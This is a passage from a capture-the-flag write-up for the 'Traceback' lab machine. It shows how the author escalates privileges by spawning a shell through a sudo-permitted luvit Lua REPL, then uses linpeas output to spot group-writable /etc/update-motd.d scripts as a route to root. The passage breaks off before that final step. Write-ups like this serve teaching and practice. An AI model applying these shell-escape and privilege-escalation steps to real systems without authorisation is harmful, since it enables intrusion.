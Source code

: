 We can read .bash_history

```ruby
webadmin@traceback:~$ cat .bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
logout
```

Since sysadmin can execute luvit without a password, and from [Gtfobins](https://gtfobins.github.io/gtfobins/lua/) for lua, we can do the following

```bash
sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute("/bin/sh")
$ /bin/bash -i
sysadmin@traceback:~$

```

We find the user.txt in the home directory of sysadmin

```ruby
sysadmin@traceback:/home/sysadmin$ cat user.txt
fd6186ad24c8547bc98-------------
```

### Privilege Escalation

Running [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) we find the following information. 

```ruby
[+] Interesting GROUP writable files (not in Home)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
  Group sysadmin:
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/sysadmin/linpeas.sh
/home/sysadmin/luvit
/home/sysadmin/.local
/home/sysadmin/pspy64.dms
```

The result especially /etc/update-motd.d/ can be used gain access as root. Checking the permission of /etc/update-motd.d

```ruby
sysadmin@traceback:/etc/update-motd.d$ ls -la
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 Aug 13 06:57 00-header
-rwxrwxr-x  1 root sysadmin  982 Aug 13 06:57 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Aug 13 06:57 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Aug 13 06:57 80-esm
-rwxrwxr-x  1 root sysadmin  299 Aug 13 06:57 91-release-upgrade
```
